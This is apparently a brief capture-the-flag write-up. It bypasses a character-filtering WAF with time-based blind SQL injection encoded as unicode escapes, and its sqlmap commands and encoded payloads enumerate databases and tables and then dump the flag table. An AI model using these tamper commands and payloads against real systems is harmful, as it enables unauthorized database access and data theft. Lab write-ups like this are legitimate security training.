

Accessed the page and we can see this code.
 
This code has vulnerabilities. The script ends immediately when any of the characters in function waf

**curl http://46.101.23.188:32464 / -X POST -d '{"user":"data"}' -x http://127.0.0.1:8080**

Captured the curl request in burp.
Now, at user parameter, use a time based sql payload. It doesn’t seem to work. Now use it with UTF-16 encoding and it works.

Now, make a file request.txt with this request header and use * at payload

Use sqlmap to generate payload.

**sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**

\u0068\u0065\u006c\u006c\u006f\u0027 \u0041\u004e\u0044 \u0028\u0053\u0045\u004c\u0045\u0043\u0054 \u0036\u0033\u0030\u0036 \u0046\u0052\u004f\u004d \u0028\u0053\u0045\u004c\u0045\u0043\u0054\u0028\u0053\u004c\u0045\u0045\u0050\u0028\u0033\u002d\u0028\u0049\u0046\u0028\u004f\u0052\u0044\u0028\u004d\u0049\u0044\u0028\u0028\u0053\u0045\u004c\u0045\u0043\u0054 \u0044\u0049\u0053\u0054\u0049\u004e\u0043\u0054\u0028\u0049\u0046\u004e\u0055\u004c\u004c\u0028\u0043\u0041\u0053\u0054\u0028\u0073\u0063\u0068\u0065\u006d\u0061\u005f\u006e\u0061\u006d\u0065 \u0041\u0053 \u004e\u0043\u0048\u0041\u0052\u0029\u002c\u0030\u0078\u0032\u0030\u0029\u0029 \u0046\u0052\u004f\u004d \u0049\u004e\u0046\u004f\u0052\u004d\u0041\u0054\u0049\u004f\u004e\u005f\u0053\u0043\u0048\u0045\u004d\u0041\u002e\u0053\u0043\u0048\u0045\u004d\u0041\u0054\u0041 \u004c\u0049\u004d\u0049\u0054 \u0034\u002c\u0031\u0029\u002c\u0034\u002c\u0031\u0029\u0029\u003e\u0031\u002c\u0030\u002c\u0033\u0029\u0029\u0029\u0029\u0029\u0066\u0078\u0074\u0069\u0029\u002d\u002d \u0059\u006c\u0069\u0047

Select database db_m8452

**sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**
\u0068\u0065\u006C\u006C\u006F\u0027\u0020\u0041\u004E\u0044\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0033\u0038\u0037\u0038\u0020\u0046\u0052\u004F\u004D\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0028\u0053\u004C\u0045\u0045\u0050\u0028\u0036\u002D\u0028\u0049\u0046\u0028\u004F\u0052\u0044\u0028\u004D\u0049\u0044\u0028\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0049\u0046\u004E\u0055\u004C\u004C\u0028\u0043\u0041\u0053\u0054\u0028\u0074\u0061\u0062\u006C\u0065\u005F\u006E\u0061\u006D\u0065\u0020\u0041\u0053\u0020\u004E\u0043\u0048\u0041\u0052\u0029\u002C\u0030\u0078\u0032\u0030\u0029\u0020\u0046\u0052\u004F\u004D\u0020\u0049\u004E\u0046\u004F\u0052\u004D\u0041\u0054\u0049\u004F\u004E\u005F\u0053\u0043\u0048\u0045\u004D\u0041\u002E\u0054\u0041\u0042\u004C\u0045\u0053\u0020\u0057\u0048\u0045\u0052\u0045\u0020\u0074\u0061\u0062\u006C\u0065\u005F\u0073\u0063\u0068\u0065\u006D\u0061\u003D\u0030\u0078\u0036\u0034\u0036\u0032\u0035\u0066\u0036\u0064\u0033\u0038\u0033\u0034\u0033\u0035\u0033\u0032\u0020\u004C\u0049\u004D\u0049\u0054\u0020\u0031\u002C\u0031\u0029\u002C\u0036\u002C\u0031\u0029\u0029\u003E\u0031\u002C\u0030\u002C\u0036\u0029\u0029\u0029\u0029\u0029\u0043\u006D\u0074\u006D\u0029\u002D\u002D\u0020\u0065\u0042\u0078\u0062
 

**sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**
\u0064\u0027\u0020\u0041\u004E\u0044\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0032\u0033\u0031\u0034\u0020\u0046\u0052\u004F\u004D\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0028\u0053\u004C\u0045\u0045\u0050\u0028\u0036\u002D\u0028\u0049\u0046\u0028\u004F\u0052\u0044\u0028\u004D\u0049\u0044\u0028\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0049\u0046\u004E\u0055\u004C\u004C\u0028\u0043\u0041\u0053\u0054\u0028\u0066\u006C\u0061\u0067\u0020\u0041\u0053\u0020\u004E\u0043\u0048\u0041\u0052\u0029\u002C\u0030\u0078\u0032\u0030\u0029\u0020\u0046\u0052\u004F\u004D\u0020\u0064\u0062\u005F\u006D\u0038\u0034\u0035\u0032\u002E\u0064\u0065\u0066\u0069\u006E\u0069\u0074\u0065\u006C\u0079\u005F\u006E\u006F\u0074\u005F\u0061\u005F\u0066\u006C\u0061\u0067\u0020\u004F\u0052\u0044\u0045\u0052\u0020\u0042\u0059\u0020\u0066\u006C\u0061\u0067\u0020\u004C\u0049\u004D\u0049\u0054\u0020\u0030\u002C\u0031\u0029\u002C\u0033\u0034\u002C\u0031\u0029\u0029\u003E\u0031\u002C\u0030\u002C\u0036\u0029\u0029\u0029\u0029\u0029\u0049\u004F\u0077\u0074\u0029\u002D\u002D\u0020\u0054\u004B\u006B\u0078

  	
